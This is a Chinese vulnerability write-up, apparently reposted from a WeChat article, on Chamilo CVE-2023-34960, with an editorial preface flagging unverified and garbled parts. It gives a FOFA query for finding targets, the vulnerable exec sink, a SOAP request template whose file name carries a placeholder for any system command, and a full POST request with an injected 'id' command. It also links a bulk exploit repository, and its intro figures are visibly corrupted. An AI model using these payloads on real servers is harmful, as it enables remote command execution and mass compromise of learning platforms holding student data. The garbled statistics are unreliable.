



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.11.18 asserted; exposed wsConvertPpt; server conversion command and Unix-like shell

- **代码与转录边界（1）**：Intro numbers swapped: 'founded30 years,2010 million' evident translation corruption。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（2）**：HTTP example lacks blank line between headers and XML and has stale length/empty Host。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：Auth/converter-enabled prerequisites not documented; no fixed-version primary advisory。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（4）**：Full source sink and SOAP structure present; bulk exploit external link distinct from local proof。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Chamilo  CVE-2023-34960 RCE 漏洞  首发批量 EXP

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Eq2-9wV9D8wB2PMB1Tl4fg)


**资产介绍：**

**Chamilo** 是一个电子学习平台，也称为学习管理系统 （LMS）。自 30 年成立以来，全球已有 2010 多万人使用它。作为 LMS，它为教育课程、培训计划或学习和发展计划的管理、文档、跟踪、报告和交付提供了一个集成平台。从本质上讲，它提供了一个数字框架，可以适应学习过程的各个方面，因此，它在众多教育和企业环境中发挥着至关重要的作用。

Chamilo 应用程序处理与教学和学习相关的大量敏感信息，包括学生和教师的个人详细信息、学术记录和专有课程内容。如果处理不当或泄露，此类数据可能会导致重大后果，从侵犯隐私到知识产权盗窃。

截至 2016 年 11 月，被动社区估计在全球拥有超过 11,000,000 名用户。

**FOFA：**

```
 "Chamilo"

```



Go！Go！Go！

**影响版本：**  

    **Chamilo <=1.11.18**

**漏洞分析：**  

**Chamilo** 具有一项名为 Chamilo Rapid 的功能，可以轻松地将 PowerPoint（PPT）幻灯片转换为 Chamilo 上的课程。

通过使用此功能，我们在源代码中识别了一个易受攻击的文件：main/webservices/additional_webservices.php

在源代码中，我们可以识别执行转换的命令：

```
$cmd = pptConverterGetCommandBaseParams();
$cmd .= ' -w '.$w.' -h '.$h.' -d oogie "'.$tempPath.$fullFileName.'" "'.$tempPathNewFiles.$fileName.'.html"';

...
$shell = exec($cmd, $files, $return);

```

函数不会筛选文件名。通过查看使用 Chamilo Rapid 功能上传的 PPT 文件的过程，我们找到了发送到函数的 SOAP 代码的解码版本。wsConvertPpt

因此，通过作为 POST 请求：/main/webservices/additional_webservices.php

```
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://localhost:800/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
	<SOAP-ENV:Body>
		<ns1:wsConvertPpt>
			<param0 xsi:type="ns2:Map">
				<item>
					<key xsi:type="xsd:string">file_data</key>
					<value xsi:type="xsd:string"></value>
				</item>
				<item>
					<key xsi:type="xsd:string">file_name</key>
					<value xsi:type="xsd:string">`PLACEHOLDER`.pptx</value>
				</item>
				<item>
					<key xsi:type="xsd:string">service_ppt2lp_size</key>
					<value xsi:type="xsd:string">720x540</value>
				</item>
			</param0>
		</ns1:wsConvertPpt>
	</SOAP-ENV:Body>
</SOAP-ENV:Envelope>


```

通过任何系统命令更改**占位符**，它将在服务器上执行。

**漏洞复现：**

通过 SOAP 参数向`/main/webservices/additional_webservices.php`发出 POST 请求。

```
POST /main/webservices/additional_webservices.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: text/xml; charset=utf-8
Content-Length: 867
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://google.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:wsConvertPpt><param0 xsi:type="ns2:Map"><item><key xsi:type="xsd:string">file_data</key><value xsi:type="xsd:string"></value></item><item><key xsi:type="xsd:string">file_name</key><value xsi:type="xsd:string">`{}`.pptx'|" |id||a #</value></item><item><key xsi:type="xsd:string">service_ppt2lp_size</key><value xsi:type="xsd:string">720x540</value></item></param0></ns1:wsConvertPpt></SOAP-ENV:Body></SOAP-ENV:Envelope>

```

  

**Tips：**  

http://google.com 的位置原为目标地址，但是测试发现并不影响。

这不得上号？  

**批量 EXP/POC：**

https://github.com/YongYe-Security/Chamilo_CVE-2023-34960-EXP



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
